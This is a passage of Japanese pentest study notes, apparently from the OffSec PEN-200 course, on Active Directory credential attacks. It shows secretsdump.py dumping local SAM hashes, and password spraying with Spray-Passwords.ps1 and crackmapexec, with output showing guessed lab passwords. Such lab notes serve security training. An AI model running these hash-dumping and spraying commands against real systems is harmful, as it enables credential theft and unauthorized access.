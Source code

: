   ※disableとついてると失敗？？

* 以下コマンドでもhashdump可能

  https://www.thehacker.recipes/ad/movement/ntlm/pth

  ```bash
  secretsdump.py -sam sam -system system LOCAL
  
  -----
  Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
  
  [*] Target system bootKey: 0x8083a99d1e5064d3bab801bc951c6fea
  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:97eb2768602642d58b10db2d26caff8a:::
  [*] Cleaning up...
  ```




### パスワードスプレー攻撃

以下powershellスクリプトがある

(Improsec, 2016), https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1 [↩︎](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/password-attacks#fnref3)

```powershell
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> powershell -ep bypass
...

PS C:\Tools> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'pete' = 'Nexus123!'
Guessed password for user: 'jen' = 'Nexus123!'
Users guessed are:
 'pete' with password: 'Nexus123!'
 'jen' with password: 'Nexus123!'
```

(Github, 2022), https://github.com/Porchetta-Industries/CrackMapExec [↩︎](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/password-attacks#fnref4)

```bash
kali@kali:~$ cat users.txt
dave
jen
pete

kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:Nexus123!
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:Nexus123!
```
